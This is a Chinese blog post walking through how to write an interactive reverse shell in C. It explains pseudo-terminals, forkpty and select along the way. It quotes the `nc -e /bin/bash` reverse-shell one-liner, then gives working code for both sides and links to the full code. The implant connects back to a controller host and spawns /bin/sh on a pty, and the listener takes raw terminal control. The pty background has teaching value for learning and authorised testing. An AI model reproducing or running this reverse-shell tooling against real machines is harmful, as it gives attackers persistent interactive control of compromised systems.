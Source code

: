 +++
title = "写一个可交互的反弹 Shell"
date = 2022-05-02T19:19:57+08:00
[taxonomies]
tags = ["linux"]
+++

在网上能看到一堆的反弹 Shell 方法，最常见的就是先用 `nc -e /bin/bash $控制机IP $控制机端口` 弹出一个 Shell，然后再用 `python3 -c 'import pty; pty.spawn("/bin/bash")'` 这样来升级成交互式 Shell。这样的话得保证环境里有 nc + python，或者得在被控机上下载多个文件。这样的话，还不如直接自己写一个 Shell 呢 233。

## “可交互 Shell” 的原理

现在常见的“终端模拟器”，例如 KDE 的 Konsole, MACos 上的 iterm，服务器上的 SSH，都是使用 "pty" 来实现的。而我们反弹的 Shell 则不一样，所以无法交互。

而 pty 则是模拟终端的设备。平时使用的终端模拟器是和 pty master 进行沟通，而里面的 shell 是和 pty slave 进行沟通，两者通过 pty 进行沟通。

```plaintext
终端模拟器 <=> | pty master | pty | pty slave | <=> shell
```

所以我们的实现也很简单，通过 socket 将被控端的 master 和控制端连接起来就好了。

```plaintext
终端模拟器 <=> 控制端 <=(socket 通信)=> 被控端 <=> | pty master | pty | pty slave | <=> shell
```

## 代码实现

首先是导入相关文件，"pty.h" 包含 pty 相关函数的定义，而 "select.h" 则是用来处理异步通信的。

```c
#include <pty.h>
#include <sys/select.h>
#include <unistd.h>

#include <stdio.h>
#include <stdlib.h>

#include "util.h"
```

被控端代码很简单，通过传入的 `host` 和 `port` 创建 socket 连接，然后通过 `forkpty` 创建 pty，在父进程中进行 socket 和子进程中的通信。

需要注意的是 `forkpty` 函数，在 FreeBSD 的 `man` 手册的说明如下

```man
The  forkpty()  function  combines  openpty(),  fork(2),  and  login_tty() to create a new
process operating in a pseudoterminal.  A file descriptor referring to master side of  the
pseudoterminal  is  returned  in amaster.  If name is not NULL, the buffer it points to is
used to return the filename of the slave.  The termp and winp arguments, if not NULL, will
determine the terminal attributes and window size of the slave side of the pseudoterminal.
```

简单翻译就是创建一对 pty，并且 fork 出子进程，然后将 master fd 和 pty 连接起来，将子进程的输入和输出和 slave fd 连接起来。这样的话，父进程只要通过 master fd 就可以和处于 pty slave 处的子进程进行沟通。

```c
int main(int argc, char **argv, char **envp) {
  if (argc < 3) {
    printf("Usage: %s [host] [port]\n", argv[0]);
    return -1;
  }
  int port = atoi(argv[2]);
  int socket_fd = 0, master_fd = 0;
  if ((socket_fd = get_socket_connect(argv[1], port)) <= 0) {
    return -2;
  }
  // Use forkpty to handle communication between pty master and socket
  int pid = forkpty(&master_fd, NULL, NULL, NULL);
  if (pid < 0) {
    return -3;
  } else if (pid != 0) {
    // Parent
    copy_loop(master_fd, socket_fd);
  } else {
    // Child
    execve("/bin/sh", NULL, NULL);
    exit(0);
  }
  return 0;
}
```

下面的代码则是在两个 fd 之间互相复制内容。通过 `select` 函数判断哪个 fd 可读，然后将可读 fd 里的内容输出到另一个 fd 里。

```c
static int copy_loop(int fd1, int fd2) {
  plog("%d, %d", fd1, fd2);
  for (;;) {
    fd_set set;
    FD_ZERO(&set);
    FD_SET(fd1, &set);
    FD_SET(fd2, &set);
    if (select(max(fd1, fd2) + 1, &set, NULL, NULL, NULL) <= 0) {
      return -2;
    }
    int read_fd = 0, write_fd = 0;
    if (FD_ISSET(fd1, &set)) {
      read_fd = fd1;
      write_fd = fd2;
    } else if (FD_ISSET(fd2, &set)) {
      read_fd = fd2;
      write_fd = fd1;
    }
    int read_bytes = copy_data(read_fd, write_fd);
    if (read_bytes < 0) {
      return read_bytes;
    }
  }
}
```

而控制端的代码看起来会比较奇怪。首先是打开了 `/proc/self/fd/0`，可以看到这是指向了 `/dev/pts/1`，即打开当前的 pty。

```bash
~/d/chenx6.github.io > ls -la /proc/self/fd
总用量 0
dr-x------ 2 chenx chenx  0  5月  2 19:47 .
dr-xr-xr-x 9 chenx chenx  0  5月  2 19:47 ..
lrwx------ 1 chenx chenx 64  5月  2 19:47 0 -> /dev/pts/1
lrwx------ 1 chenx chenx 64  5月  2 19:47 1 -> /dev/pts/1
lrwx------ 1 chenx chenx 64  5月  2 19:47 2 -> /dev/pts/1
lr-x------ 1 chenx chenx 64  5月  2 19:47 3 -> /proc/1091/fd
lr-x------ 1 chenx chenx 64  5月  2 19:47 51 -> anon_inode:inotify
```

然后是终端的设置。对 `c_lflag` 本地模式进行设置，设置为不回显，uncanonical mode。然后是对 `c_cc` 特殊字符设置不处理 ”^C / ^Z / ^\“。

最后就是创建 socket 连接，复制数据(和被控端类似，区别请见末尾的文件)。当复制结束时则恢复回原本的终端设置。

```c
#include <arpa/inet.h>
#include <fcntl.h>
#include <pty.h>
#include <sys/select.h>
#include <sys/types.h>
#include <termios.h>
#include <unistd.h>

#include <stdio.h>
#include <stdlib.h>

#include "util.h"

int main() {
  // PTY
  int pty_fd = open("/proc/self/fd/0", O_RDWR);
  struct termios terminal, origin_terminal;
  tcgetattr(pty_fd, &terminal);
  origin_terminal = terminal;
  // turn off echo, uncanonical mode
  terminal.c_lflag &= ~ECHO;
  terminal.c_lflag &= ~ICANON;
  // Don't handle ^C / ^Z / ^\
  terminal.c_cc[VINTR] = 0;
  terminal.c_cc[VQUIT] = 0;
  terminal.c_cc[VSUSP] = 0;
  tcsetattr(pty_fd, TCSANOW, &terminal);

  // Socket
  int listen_fd = get_socket_listen("0.0.0.0", 8888);
  socklen_t s;
  struct sockaddr accepted_addr;
  int accepted_fd = accept(listen_fd, &accepted_addr, &s);
  copy_loop(accepted_fd);
  tcsetattr(pty_fd, TCSANOW, &origin_terminal);
  return 0;
}
```

可以看到，很少的代码就能创建一个交互式反弹 Shell，还能复习 UNIX 知识。

完整代码在这：<https://gist.github.com/chenx6/7a51c3cda5c0055a4df5cee66f762fea>

## Refs

- 基于原本的项目，魔改了下，兼容 Python3 <https://github.com/chenx6/python-pty-shells>
- [pseudo-terminal 基础一](https://segmentfault.com/a/1190000019747315)
- [linux select函数解析以及事例](https://zhuanlan.zhihu.com/p/57518857)
